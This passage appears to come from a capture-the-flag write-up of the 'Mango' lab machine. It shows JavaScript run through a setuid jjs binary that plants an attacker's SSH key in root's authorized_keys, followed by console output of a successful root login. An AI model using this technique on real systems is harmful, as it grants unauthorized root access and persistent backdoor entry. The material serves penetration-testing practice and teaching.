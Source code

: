 - **EXP**: use js exp code to write local host's public rsa key into `/root/.ssh/authorized_keys`

```javascript
var Files = Java.type('java.nio.file.Files');
var Paths = Java.type('java.nio.file.Paths');
var StandardCharsets = Java.type('java.nio.charset.StandardCharsets');
var StandardOpenOption = Java.type('java.nio.file.StandardOpenOption');

var path = Paths.get("/root/.ssh/authorized_keys");
var content = new java.lang.String("ssh-rsa AAAAxxxxxx....xxxxxx= zhsh@kali");

try {
    Files.write(path, content.getBytes(StandardCharsets.UTF_8), StandardOpenOption.CREATE, StandardOpenOption.TRUNCATE_EXISTING);
    print("[+] Content written to /root/.ssh/authorized_keys successfully.");
} catch (e) {
    print("[!] An error occurred: " + e.message);
}
```

```console
admin@mango:/home/admin$ cat exp | jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> var Files = Java.type('java.nio.file.Files');
jjs> var Paths = Java.type('java.nio.file.Paths');
jjs> var StandardCharsets = Java.type('java.nio.charset.StandardCharsets');
jjs> var StandardOpenOption = Java.type('java.nio.file.StandardOpenOption');
jjs>
jjs> var path = Paths.get("/root/.ssh/authorized_keys");
jjs> var content = new java.lang.String("ssh-rsa AAAAxxx...xxx== zhsh@kali");
jjs>
jjs> try {
...>     Files.write(path, content.getBytes(StandardCharsets.UTF_8), StandardOpenOption.CREATE, StandardOpenOption.TRUNCATE_EXISTING);
...>     print("[+] Content written to /root/.ssh/authorized_keys successfully.");
...> } catch (e) {
...>     print("[!] An error occurred: " + e.message);
...> }
[+] Content written to /root/.ssh/authorized_keys successfully.
```

```console
$ ssh -i ~/.ssh/id_rsa root@$IP
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)
...
root@mango:~# id
uid=0(root) gid=0(root) groups=0(root)
root@mango:~# uname -a
Linux mango 4.15.0-64-generic #73-Ubuntu SMP Thu Sep 12 13:16:13 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
root@mango:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:b9:04:dc brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.162/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
```
